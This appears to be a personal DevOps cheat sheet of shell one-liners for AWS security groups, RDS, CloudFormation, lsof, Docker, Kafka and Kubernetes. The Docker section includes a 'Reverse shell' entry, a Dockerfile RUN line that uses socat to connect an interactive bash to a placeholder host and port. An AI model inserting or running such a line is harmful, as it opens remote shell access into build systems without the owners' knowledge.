 ## AWS
#### Remove / Update EC2 Security Groups
You can alter this command to add new groups by just appending them to the end
```
:; export INSTANCE_ID=
:; export REMOVE_SG_ID=

:; echo "aws ec2 modify-instance-attribute --instance-id $INSTANCE_ID --groups $(aws ec2 describe-instances --instance-ids $INSTANCE_ID | jq '.Reservations[].Instances[].SecurityGroups' | grep -Po "\"sg-\w+\"" | grep -v $REMOVE_SG_ID | xargs)"
```
#### Find all RDS instances that do not have a particular Security Group(s)
```
:; echo "aws rds describe-db-instances | jq '.[][] | {Instance: .DBInstanceIdentifier, Engine: .Engine, SGs: [.VpcSecurityGroups[].VpcSecurityGroupId]} | select(.Engine != "docdb") | select(.SGs | contains(["ADD-SG-HERE"]) or contains(["ADD-SG-HERE"]) | not) | .Instance'"
```

#### Update CF Stack
This can be easily modified to make changes to the parameter JSON with `jq` or in a file and then uploaded as well.
```
:; export STACK_NAME=

:; RO_PARAMS=$(aws cloudformation describe-stacks --stack-name $STACK_NAME | jq ".Stacks[].Parameters")
:; echo "aws cloudformation update-stack --stack-name $STACK_NAME --parameters $RO_PARAMS --template-body file://<template-here>"
```

## Bash
#### Open file handle counts
```
sudo lsof | awk '{ print $2, $9 }' | sort | uniq -c | sort -n | tail -20
```

## Docker
#### Reverse shell
```
RUN socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<host>:<port>
```
#### Join container network namespace for troubleshooting
```
docker run -it --net container:<hash> nicolaka/netshoot
```

## Kafka
#### Print the last 2 messages from a topic
```
:; kafkacat -C -b <broker> -t <topic> -p 0 -o -2 -e
```

## Kubernetes
#### Replace configmaps which aren't actual config maps
```
:; kubectl create configmap <MAP_NAME> --from-file=<DIR_OF_CONFIGS> -o yaml --dry-run | kubectl replace -f -
```


